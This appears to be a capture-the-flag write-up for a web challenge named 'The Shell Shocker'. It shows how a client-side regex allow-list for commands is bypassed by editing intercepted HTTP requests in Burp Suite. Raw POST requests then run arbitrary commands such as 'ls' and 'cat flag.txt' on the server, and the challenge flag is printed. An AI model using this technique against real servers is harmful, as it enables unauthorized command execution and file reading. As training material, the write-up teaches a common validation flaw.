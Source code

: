 # <u>The Shell Shocker</u>

* **Event:** Hack Havoc CTF by CyberMaterial
* **Problem Type:** Web
* **Point Value / Difficulty:** 80
## Description
Our CyberMaterial developer thought they’d created the ultimate basic Linux shell, only the essentials, nothing fancy. But we think they might have missed a trick or two. 😏

Your task? See if you can get this shell to do something it wasn’t exactly “designed” to do. Think of it like asking a fish to climb a tree. 🌳🐟

http://challenge.ctf.cybermaterial.com/a/

## Solution
On opening the website I immediately tried to run some linux commands but it didn't work.

Inspected the website, and came to `network` and refreshed the page. Saw that path of the `styles.css` and `script.js` was not properly configured. and it can't get it from its directory.

Went to `/static/script.js` and `/static/style.css` and found out the files.

Script.js
```js
const commandForm = document.querySelector('#command-form');
const commandInput = document.querySelector('#command-input');
const outputDiv = document.querySelector('#output');

commandForm.addEventListener('submit', async (event) => {
  event.preventDefault();
  
  const command = commandInput.value;
  
  const validCommand = /^((uname|echo|pwd|whoami)\s*([-\w\s]*))?$/i.test(command);
  
  if (!validCommand) {
    outputDiv.textContent = 'Error: Invalid command. Please enter a valid command (uname, echo, pwd, or whoami) with optional arguments and options separated by spaces and hyphens.';
    return;
  }
  
  try {
    const response = await fetch('/exec', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ command }) 
    });
    const result = await response.text();
    outputDiv.textContent = result;
  } catch (error) {
    console.error(error);
    outputDiv.textContent = `Error: ${error.message}`;
  }
});
```

According to the regex we can use commands like uname, echo, pwd, whoami.

Now I open the website on `burpsuite` to intercept the requests, fix them and then send to the server.

We change the request 
```
GET /a/%7B%7B%20url_for('static',%20filename='style.css')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
to 
```
GET /a/static/style.css HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

and

```
GET /a/%7B%7B%20url_for('static',%20filename='script.js')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

to this
```
GET /a/static/script.js HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Now both the css and js files will be properly loaded. Next lets try any random command which is allowed.

The request we get is 
```
POST /exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"command":"pwd"}
```

We see that it is `POST /exec` but the website has a `/a`. So we modify this request as well by writing `/a/exec` instead of `/exec` and forward it.

![](shell_1.png)

It shows `Command not allowed`. The server has some other implementation. Either ways, next just try the command `ls` but change the request instead of writing in the website as it will show error due to the client side js. 

The output we get is `{"output":"__pycache__\napp.py\nflag.txt\nindex.html\nstatic\ntemplates\n"}`

Next just send `cat flag.txt` as the command and viola, you get the flag.
```
POST /a/exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"command":"cat flag.txt"}
```


Flag:- `CM{c0mMAnd_INjEc7iON_f7w}`


